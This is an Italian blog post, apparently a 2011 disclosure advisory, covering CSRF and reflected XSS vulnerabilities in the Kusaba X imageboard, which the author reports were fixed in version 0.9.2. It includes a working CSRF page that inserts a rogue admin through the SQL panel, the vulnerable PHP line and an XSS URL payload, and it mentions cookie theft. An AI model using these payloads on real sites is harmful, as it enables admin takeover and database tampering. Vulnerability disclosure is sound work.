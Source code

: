 ```yaml
---
comments: true
date: 2011-05-12 21:42:09
layout: post
slug: kusaba-x-xsscsrf-vulnerabilites
title: Kusaba X CSRF XSS vulnerabilites
wordpress_id: 1031
categories:
- Pentesting
- Security
- Vulnerabilities
- Web Apps
tags:
- /b/
- 4chan
- advisory
- csrf
- hacking
- security
- sql injection
- vulnerability
- xss
---
```


Ultimamente mi affascina il penetration testing di applicazioni web, scoperto in ritardo visto il mio retaggio primi anni 2000, più dedicato ad *nix, raw sockets e C. Armato di un buon proxy server per il pentest web mi sono dedicato all'auditing di alcune web applications di mia conoscenza.

## Kusaba X e le imageboard

[Kusaba X](http://kusabax.cultnet.net/) è un software per [imageboard](http://it.wikipedia.org/wiki/Imageboard), una sito internet simile alle vecchie bullettin board, ma basato sulla pubblicazione di immagini. Una famosa comunità creatasi da una sezione di una imageboard è /b/ di 4chan, di cui si sente tanto parlare in tanto in tanto per azioni di trolling o per gli attacchi del gruppo Anonymous.
La peculiarità più nota delle imageboard è la completa anonimità degli utenti: i post non sono firmati, nessuno è resposabile delle proprie parole e tutti interloquiscono con un unico nome collettivo. Questa depersonalizzazione le porta ad essere dei microcosmi _anarcheggianti_, davanti ai quali ci si trova spiazzati dal linguaggio incomprensibile, per immagini di cattivo gusto, humor nero, razzismo, trolling, [internet meme](http://en.wikipedia.org/wiki/Internet_meme), e altro. Queste comunità richiamano un internet affascinante di tanti anni fa, senza ancora il recinto messo da facebook ma irc e la magia di non sapere con cui stai interloquendo. Trovo anche nel nome collettivo Anonymous bel un richiamo [blissettiano](http://it.wikipedia.org/wiki/Luther_Blissett_(pseudonimo)), del quale purtroppo si è appropriato il sedicente gruppo "hacker" legato a 4chan.

Finito il discorso da Dams, passiamo alle cose più serie. L'advisory ufficiale è pubblicato nei principali vulnerability [database](http://www.exploit-db.com/exploits/17221/). Ho avvertito gli sviluppatori e i bug sono stati fixati dalla versione 0.9.2.

## Arbitrary SQL statements execution via CSRF

Nelle richieste al pannello di amministrazione non vi è alcun anti csrf token o controllo del referer, quindi è sufficiente che un amministratore loggato visiti la pagina con il CSRF per forzarlo a eseguire comandi privilegiati. ll pannello di amministrazione permette addirittura di inviare comandi SQL con un semplice POST, il che ci rende molto facile fare qualsiasi query al database. Il codice aggiunge un utente privilegiato alla lista degli amministratori, con username 'new_admin' e password 'admin' (salt 'TMC').

```html
<html>
<body>
<iframe style="width: 1px; height: 1px; visibility: hidden"
name="hidden"></iframe>
<form method="post" name="sender"
action="http://localhost/kusabax/manage_page.php?action=sql"
target="hidden">
<input type="hidden" name="query"
value="insert into staff values (1331, 'new_admin',
'6a9685fcb53b90f0ca9a1c72d7fa31d2', 'TMC', 1, NULL, 1303904817,
1303908333)">
</form>
</body>
<script>document.sender.submit(); </script>
</html>
```

## XSS vulnerability on animation.php

Il file animation.php riflette un parametro passato nella GET senza averlo sanificato

```php
<param name="pch_file" value="<?php echo KU_BOARDSPATH . '/' . $_GET['board'] . '/src/' . $_GET['id'] . '.pch'; ?>">
```

E il POC è un semplice

```html
http://localhost/kusabax/animation.php?board=b&id=1"><script>alert('XSS')</script><"
```

ed è ancora più semplice [rubare i cookie](http://en.wikipedia.org/wiki/Cross-site_scripting#Cookie_security) dell'amministratore con un cookie grabber.
